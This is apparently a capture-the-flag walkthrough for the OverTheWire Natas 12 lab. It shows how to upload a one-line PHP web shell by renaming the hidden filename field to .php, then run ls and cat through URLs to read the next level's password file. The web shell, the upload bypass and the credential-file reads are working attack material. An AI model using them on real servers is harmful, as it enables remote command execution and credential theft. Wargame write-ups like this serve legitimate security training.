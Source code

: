 # 🔐 Natas 12 Walkthrough 

  >[!IMPORTANT]
  >📝 The full script with a commented explanation is provided in the `natas12` directory. Feel free to use it while debugging your code. Good luck!

You'll see an upload form that allows uploading an image file. It mentions that it checks the file type.

```html
<form enctype="multipart/form-data" action="index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input name="uploadedfile" type="file" />
  <input type="submit" value="Upload File" />
</form>
```
***Let's test it.***

## 🐚 Upload a PHP Shell to the Server

Try uploading a `.php` file disguised as an image. Here's a simple payload to retrieve the password:

```php
<?php echo shell_exec($_GET['e'] . ' 2>&1'); ?>
```
### What does this code do?

- `$_GET['e']` retrieves the value of the `e` parameter from the URL query string.  
  Example: If the URL is `script.php?e=ls`, then `$_GET['e']` will be `'ls'`.

- `. ' 2>&1'` appends `' 2>&1'` to the command. This redirects `stderr` (file descriptor 2) to `stdout` (file descriptor 1), so both standard output and error messages are captured together.

- `shell_exec()` executes the complete shell command on the server. It returns the output of the command, including errors (because of `2>&1`).

- `echo` outputs the result of `shell_exec()` to the browser/user.



Save your script as `shell.php` and upload it using the form. However, you'll notice that the server renames the uploaded file to something like `<randomstring>.jpg`. This is a problem because `.jpg` files are not parsed as PHP, so **your code won’t execute.**

To get around this, we need to manipulate the upload request so that the file is saved with a `.php` extension on the server.

### 🛠️ How to change the filename

Inspect the page and look for this hidden input:
```
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.jpg">
```
***Change it to:***
```
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.php">
```
This ensures that your uploaded file gets saved as a `.php` file and will be executed by the server.

## 🔎 Getting the natas13 Password

As we know, the passwords are stored in `/etc/natas_webpass/natasX`. We want to read the contents of:

```
/etc/natas_webpass/natas13
```

Clicking on the uploaded file shows this error:
```
Notice: Undefined index: e in /var/www/natas/natas12/upload/r3bkauo8pd.php on line 4
```
As expected bacause we added this variable in our code. This tells us we need to supply a value to the `e` parameter in the URL.

### ✅ Example: Listing directory contents

To list files in the current directory, use the `ls` command via the URL like so:

```
http://natas12.natas.labs.overthewire.org/upload/r3bkauo8pd.php?e=ls
```
If that works, you should see a list of files.

### 🧠 Now use `cat` to read the password file:
```
http://natas12.natas.labs.overthewire.org/upload/r3bkauo8pd.php?e=cat%20/etc/natas_webpass/natas13
```
> [!CAUTION]  
> You **must** use `%20` (URL encoding for space) in the URL. Using a literal space will result in an error!

If done correctly, you'll be shown the password for **natas13**. 

